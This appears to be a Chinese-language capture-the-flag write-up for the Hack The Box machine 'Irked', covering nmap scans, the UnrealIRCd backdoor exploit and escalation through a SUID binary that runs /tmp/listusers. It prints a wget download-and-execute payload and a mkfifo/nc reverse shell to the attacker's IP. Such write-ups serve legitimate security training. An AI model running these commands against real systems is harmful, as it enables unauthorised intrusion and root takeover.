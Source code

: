 ## nmap

```Bash
PORT      STATE SERVICE
22/tcp    open  ssh
80/tcp    open  http
111/tcp   open  rpcbind
6697/tcp  open  ircs-u
8067/tcp  open  infi-async
40791/tcp open  unknown
65534/tcp open  unknown

```

 

```Bash
PORT      STATE SERVICE VERSION
22/tcp    open  ssh     OpenSSH 6.7p1 Debian 5+deb8u4 (protocol 2.0)
| ssh-hostkey:
|   1024 6a:5d:f5:bd:cf:83:78:b6:75:31:9b:dc:79:c5:fd:ad (DSA)
|   2048 75:2e:66:bf:b9:3c:cc:f7:7e:84:8a:8b:f0:81:02:33 (RSA)
|   256 c8:a3:a2:5e:34:9a:c4:9b:90:53:f7:50:bf:ea:25:3b (ECDSA)
|_  256 8d:1b:43:c7:d0:1a:4c:05:cf:82:ed:c1:01:63:a2:0c (ED25519)
80/tcp    open  http    Apache httpd 2.4.10 ((Debian))
|_http-title: Site doesn't have a title (text/html).
|_http-server-header: Apache/2.4.10 (Debian)
111/tcp   open  rpcbind 2-4 (RPC #100000)
| rpcinfo:
|   program version    port/proto  service
|   100000  2,3,4        111/tcp   rpcbind
|   100000  2,3,4        111/udp   rpcbind
|   100000  3,4          111/tcp6  rpcbind
|   100000  3,4          111/udp6  rpcbind
|   100024  1          36353/udp6  status
|   100024  1          40791/tcp   status
|   100024  1          53764/tcp6  status
|_  100024  1          56272/udp   status
6697/tcp  open  irc     UnrealIRCd
8067/tcp  open  irc     UnrealIRCd
40791/tcp open  status  1 (RPC #100024)
65534/tcp open  irc     UnrealIRCd
Service Info: Host: irked.htb; OS: Linux; CPE: cpe:/o:linux:linux_kernel

```

注意这里有个域名  irked.htb

## ssh

ssh版本低，且使用了不安全算法，没有对应的exp



## http

主页打开有一张图片，分析后没有发现异常

```Bash
└─# curl http://10.10.10.117/
<img src=irked.jpg>
<br>
<b><center>IRC is almost working!</b></center>

```

提示中有IRC 和上面的扫描结果有关联



目录爆破

manual页面是apcache的帮助文档页面，用处不大



## IRC

irc是什么？  

[What is IRC (Internet Relay Chat)? (computerhope.com)](https://www.computerhope.com/jargon/i/irc.htm#:~:text=Developed in August 1988, by Jarkko Oikarinen, IRC,web service and communicate with each other live.)

看上去是一款古老的协议



### manual - 失败

UnrealIrcd是什么

```Bash
└─# searchsploit  unrealirc
-------------------------------------------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                                                      |  Path
-------------------------------------------------------------------------------------------------------------------- ---------------------------------
UnrealIRCd 3.2.8.1 - Backdoor Command Execution (Metasploit)                                                        | linux/remote/16922.rb
UnrealIRCd 3.2.8.1 - Local Configuration Stack Overflow                                                             | windows/dos/18011.txt
UnrealIRCd 3.2.8.1 - Remote Downloader/Execute                                                                      | linux/remote/13853.pl
UnrealIRCd 3.x - Remote Denial of Service                                                                           | windows/dos/27407.pl
```

[Authentication types - UnrealIRCd documentation wiki](https://www.unrealircd.org/docs/Authentication_types)

使用13853.pl，将其中的playload修改成自己的反弹shell，没有成功，看了下原始的shell都是从远端服务器下载到本地后执行，尝试在kali上起web服务提供shell下载

```Bash
my $payload2 = 'AB; cd /tmp; wget http://10.10.16.11/bindshell -O bot; chmod +x bot; ./bot &';

```

但是没有触发下载



### msf

通过msf拿到一个低权shell ircd，存在另外一个用户 djmardov，存在user.txt 但是没有权限



### NSE脚本（没有考虑到）

```Python
└─# locate   *.nse | grep  unreal
/usr/share/nmap/scripts/irc-unrealircd-backdoor.nse

```



## Privilege Escalation

### ircd → djmardov

没有sudo

使用pspy看下定时进程，LinEnum.sh 都没有特别发现



看下题解

```Python
ircd@irked:/usr/bin$ find / -perm -u=s -type f 2>/dev/null
find / -perm -u=s -type f 2>/dev/null
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/eject/dmcrypt-get-device
/usr/lib/policykit-1/polkit-agent-helper-1
/usr/lib/openssh/ssh-keysign
/usr/lib/spice-gtk/spice-client-glib-usb-acl-helper
/usr/sbin/exim4
/usr/sbin/pppd
/usr/bin/chsh
/usr/bin/procmail
/usr/bin/gpasswd
/usr/bin/newgrp
/usr/bin/at
/usr/bin/pkexec
/usr/bin/X
/usr/bin/passwd
/usr/bin/chfn
/usr/bin/viewuser
/sbin/mount.nfs
/bin/su
/bin/mount
/bin/fusermount
/bin/ntfs-3g
/bin/umount
ircd@irked:/usr/bin$ ./viewuser
./viewuser
This application is being devleoped to set and test user permissions
It is still being actively developed
(unknown) :0           2023-02-05 07:14 (:0)
sh: 1: /tmp/listusers: not found
ircd@irked:/usr/bin$

```

有个SUID的敏感文件，执行后有shell文件执行报错没有找到文件，在目录下新建一个同名文件，内容为反弹shell，拿到root权限

```Python
ircd@irked:/usr/bin$ echo "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc 10.10.16.11 9001 >/tmp/f" > /tmp/listusers
<t /tmp/f|sh -i 2>&1|nc 10.10.16.11 9001 >/tmp/f" > /tmp/listusers
ircd@irked:/usr/bin$

ircd@irked:/usr/bin$

ircd@irked:/usr/bin$ cat /tmp/listusers
cat /tmp/listusers
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc 10.10.16.11 9001 >/tmp/f
ircd@irked:/usr/bin$

ircd@irked:/usr/bin$

ircd@irked:/usr/bin$ ./viewusers
./viewusers
bash: ./viewusers: No such file or directory
ircd@irked:/usr/bin$ ./viewuser
./viewuser
This application is being devleoped to set and test user permissions
It is still being actively developed
(unknown) :0           2023-02-05 07:14 (:0)


```



